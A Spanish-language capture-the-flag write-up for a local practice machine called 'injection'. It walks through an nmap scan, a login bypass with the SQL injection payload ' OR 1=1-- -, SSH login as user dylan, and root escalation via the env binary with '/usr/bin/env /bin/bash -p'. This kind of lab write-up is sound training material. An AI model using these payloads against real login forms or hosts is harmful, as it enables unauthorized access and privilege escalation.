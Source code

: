 Esta es una máquina catalogada como muy fácil. Para desplegarla ahí que utilizar el comando:
```
sudo su bash auto_deploy.sh injection.tar
```
Luego escaneamos el objetivo:
```
nmap -p- -sS -sC -sC -Pn --min-rate 5000 172.17.0.2
```
Descubrimos que esta el puerto 22 abierto corriendo el servicio ssh y el puerto 80 corriendo el servicio http. El servicio ssh se encuentra en una versión muy actualizada como para encontrar un exploit así que se opta por ver la ip en nuestro buscador. Lo primero que vemos es una imagen con un kinder sorpresa, al hacer una enumeración de subdominios con gobuster y un directorio de seclists encontramos un subdominio index.php y config.php.
![[injection1.png]]
Probando las páginas encontramos una página para introducir usuario y contraseña.
![[injection2.png]]
![[injection3.png]]
Encontramos una vulnerabilidad que puede ser bypasseada con un Bypass autentication. Al buscar como explotar sqlinjection sal la manera más sencilla:

```
' OR 1=1-- -
```
Lo que cambiaría la sentencia sql de:
```
SELECT * FROM usuarios WHERE usuario = 'usuario' AND contraseña = 'contraseña'; 
```
a :
```
SELECT * FROM usuarios WHERE usuario = '' OR 1=1-- - AND contraseña = 'cualquier cosa';

```
![[injection4.png]]
Con  esto nos damos cuenta que el usuario dylan tiene acceso a la máquina ssh con la contraseña.
A tener en cuenta que esto al momento de entrar tuve problemas con fingerprint de ssh. Para solucionarlo use:
```
ssh-keygen -f/root/.ssh/known_hosts -R 172.17.0.2
```
Una vez solucionado este problema podemos entrar con las credenciales.
![[injection5.png]]
Sabemos por GTFO bins que podremos ejecutar en el directorio env una bash para quedar como root.Una vez ejecutemos el comando: 
```
which env
```
Para saber donde queda el directorio env de la máquina y luego ejecutaremos:
```
/usr/bin/env /bin/bash -p
```
Con este comando nos encontraremos loggeados como root.
![[injection6.png]]
Ya con esto hemos acabado la máquina injection.
